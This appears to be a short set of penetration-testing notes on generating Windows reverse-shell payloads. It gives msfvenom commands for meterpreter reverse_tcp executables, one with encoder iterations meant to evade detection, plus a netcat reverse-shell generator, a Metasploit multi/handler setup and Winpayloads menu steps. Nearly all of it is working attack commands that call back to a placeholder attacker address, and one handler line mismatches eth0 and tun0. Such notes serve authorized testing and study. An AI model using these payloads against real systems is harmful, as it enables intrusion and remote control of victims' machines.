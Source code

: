 ### [Payload Resources]
https://github.com/nccgroup/Winpayloads

Winpayloads.py

stager
r
ps payload
execute payload on target
#handler gets hit
\
clients
clientid#
\
back (to main menu)
2 to reverse tcp
y to upload
clientid#
\
#msfloads
sessions -i sesid#
shell
background (leave process in background)
sessions -k sesid#
\
clients
exit (kills client session)

https://github.com/xephora/PayloadsAllTheThings

[Generating Payloads on Windows using Metasploit]

### [Regular Reverse TCP]
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -f exe > shell.exe
[Poly Morphic Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -e x64/shikata_ga_nai -i 100 -f exe > file.exe

Creating a reverse tcp netcat comamnd
msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<port> R
```

### [Handler]
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

PAYLOAD => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST eth0

LHOST => tun0

msf5 exploit(multi/handler) > set LPORT 32119

LPORT => 32119

msf5 exploit(multi/handler) > run

https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/


